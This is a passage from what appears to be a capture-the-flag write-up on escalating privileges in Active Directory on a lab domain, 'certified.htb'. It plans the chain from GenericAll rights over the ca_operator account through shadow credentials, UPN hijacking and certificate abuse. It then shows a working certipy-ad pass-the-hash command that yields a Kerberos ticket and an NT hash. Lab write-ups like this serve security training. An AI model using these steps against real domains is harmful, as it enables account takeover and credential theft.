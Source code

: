 
From what we found at the reconnaissance stage, we discovered that `management_svc` has `GenericAll` permission over `ca_operator` account, **GenericAll** is a powerful permission in Active Directory (AD) that grants **full control** over a target object (e.g., a user, group, computer, or organizational unit). If a user or group has the `GenericAll` privilege over another object, they can perform **any action** on that object, including modifying its attributes, resetting passwords, deleting it, or adding/removing members (for groups).

So, let's break down our privilege escalation, we can work our way into admin in the following way:

```
1. Abuse GenericAll Rights**
2. Add KeyCredentialLink (Shadow Credentials)
3. Hijack UPN to Impersonate Administrator
4. Request Administrator Certificate
5. Restore UPN 
6. Authenticate as Administrator via PKINIT
7. Lateral Movement with Evil-WinRM
```

We can check our key terms:

### **Key Terms & Techniques**

1. **GenericAll Rights**:
    - A permission granting full control over an AD object (e.g., user, group).

2. **KeyCredentialLink**:

- An AD attribute storing public keys for certificate-based authentication.

3. **UserPrincipalName (UPN)**:

- An identifier formatted as `user@domain` (e.g., `administrator@certified.htb`).

4. **Certificate Template Misconfiguration**:

- A vulnerable template (`CertifiedAuthentication`) allowed enrollment without proper validation.

5. **PKINIT Authentication**:

- Kerberos authentication using certificates instead of passwords.

Ok, once we've structured all, let's put it into practice:


**Adding KeyCredential**

```
certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b36104d9-a205-51d9-4f39-59729e993822'
[*] Adding Key Credential with device ID 'b36104d9-a205-51d9-4f39-59729e993822' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'b36104d9-a205-51d9-4f39-59729e993822' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```